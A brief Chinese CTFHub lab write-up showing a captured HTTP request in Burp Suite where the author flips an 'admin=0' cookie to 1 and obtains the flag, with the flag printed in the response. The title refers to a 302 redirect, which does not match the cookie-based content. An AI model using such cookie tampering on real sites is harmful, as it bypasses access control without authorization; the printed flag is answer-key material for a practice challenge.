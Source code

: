# CTFHUB_302跳转

## 题目内容

```html
hello guest. only admin can get flag.
```
## WriteUp
题目已知只有admin可以访问，我们还是使用burpsuite抓包看看

```
GET / HTTP/1.1
Host: challenge-5f3dd77d0fac4176.sandbox.ctfhub.com:10800
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17b672c96fe74f-01ab585fa1d62c-3d740e5b-1fa400-17b672c96ff412; admin=0
Connection: close
```

抓到数据包，在cookie出可以看到admin=0，我们将包send to repeater并给他改成1

获取到flag

```
HTTP/1.1 200 OK
Server: openresty/1.19.3.2
Date: Sat, 21 Aug 2021 07:01:59 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/5.6.40
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: X-Requested-With
Access-Control-Allow-Methods: *
Content-Length: 32

ctfhub{cec4454dfccc2cf9ceabf92c}
```

